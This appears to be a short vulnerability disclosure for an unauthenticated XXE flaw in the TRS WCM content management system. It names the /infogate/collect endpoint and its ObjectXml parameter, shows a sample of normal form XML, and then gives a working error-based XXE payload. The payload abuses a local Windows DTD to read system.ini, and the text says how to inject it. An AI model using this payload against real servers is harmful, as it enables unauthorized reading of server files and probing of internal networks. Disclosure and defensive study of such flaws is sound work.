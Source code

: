 #TRS WCM XXE
##Description
An XXE issue was discovered in WCM, which can be used to read any file in the system or scan the internal network without authentication. When submitting a post request to `/infogate/collect`, the *ObjectXml* parameter is in XML format, and the server doesn't properly verify the validity when processing XML data.

##POC
The normal request is as follows
![](img/wcmxxe0.png)

*ObjectXml* parameter content looks like this
```
<my:myFields xmlns:my="http://schemas.microsoft.com/office/infopath/">
<my:group1>
<my:您的姓名><![CDATA[123123123123123]]></my:您的姓名>
<my:联系电话><![CDATA[123123]]></my:联系电话>
<my:邮箱><![CDATA[123123]]></my:邮箱>
<my:联系地址><![CDATA[123]]></my:联系地址>
<my:主题><![CDATA[123123]]></my:主题>
<my:内容><![CDATA[123123]]></my:内容>
</my:group1>
</my:myFields>
```

POC:
```
  <!DOCTYPE message [
      <!ENTITY % local_dtd SYSTEM "file:///C:/Windows/System32/wbem/xml/cim20.dtd">
      <!ENTITY % SuperClass '>
          <!ENTITY &#x25; file SYSTEM "file:///c:/windows/system.ini">
          <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
          &#x25;eval;
          &#x25;error;
          '>
      %local_dtd;
  ]>
  <message>any text</message>
```

Put the POC code before the content of the ObjectXml parameter and submit the request
![](img/wcmxxe1.png)
